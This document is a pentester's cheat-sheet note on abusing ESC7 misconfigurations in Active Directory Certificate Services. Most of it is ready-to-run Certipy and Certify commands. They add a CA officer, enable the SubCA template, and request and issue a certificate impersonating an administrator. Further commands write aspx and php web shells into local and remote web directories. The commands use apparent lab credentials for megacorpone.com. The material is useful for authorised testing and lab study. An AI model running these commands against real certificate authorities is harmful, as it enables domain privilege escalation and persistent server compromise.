 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

# General Overview

Certificate Authorities (CAs) are granted specific permissions to manage and secure operations. The ManageCA permission provides administrative control, allowing modifications to persistent configuration settings, such as enabling the EDITF_ATTRIBUTESUBJECTALTNAME2 flag. Conversely, the ManageCertificates permission permits the approval of pending certificate requests, which can override the need for manager approval.

# Abusing ESC7 Certificate Templates

## Scenario 1: 
If we find a user that has the Manage CA permission, we can add an Officer. This will grant us the Manage Certificates permission: 

## Certipy:
- certipy-ad ca -ca 'Vulnerable CA' -add-officer  -username afsimmons@megacorpone.com -password Spawn123!
- certipy-ad -ca -ca 'Vulnerable CA'  -enable-template SubCA -username afsimmons@megacorpone.com -password Spawn123!
If we have fulfilled the prerequisites for this attack, we can start by requesting a certificate based on the SubCA template:

- certipy-ad req -username afsimmons@megacorpone.com -password Spawn123! -ca corp-DC-CA -target ca.megacorpone.com -template SubCA -upn xadministrator@megacorpone.com
- certipy-ad ca -ca 'corp-DC-CA' -issue-request 785 -username afsimmons@megacorpone.com -password Spawn123!
- certipy-ad req -username afsimmons@megacorpone.com -password Spawn123! -ca corp-DC-CA -target ca.megacorpone.com -retrieve 785
## Certify
- Certify.exe setconfig /enablesan /restart
- Certify.exe request /template:corp-DC-CA /altname:xadministrator
- Certify.exe issue /id:[REQUEST ID]
- To disable: Certify.exe setconfig /removeapproval /restart
Alternative Technique:
- Get the current CDP list. Useful to find remote writable shares:
	Certify.exe writefile /ca:SERVER\ca-name /readonly

- Write an aspx shell to a local web directory:
	Certify.exe writefile /ca:SERVER\ca-name /path:C:\Windows\SystemData\CES\CA-Name\shell.aspx /input:C:\Local\Path\shell.aspx

- Write the default asp shell to a local web directory:
	Certify.exe writefile /ca:SERVER\ca-name /path:c:\\inetpub\\wwwroot\\shell.aspx
- Write a php shell to a remote web directory:
	Certify.exe writefile /ca:SERVER\ca-name /path:\\remote.server\\share\\shell.php /input:C:\\Local\\path\\shell.php


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`

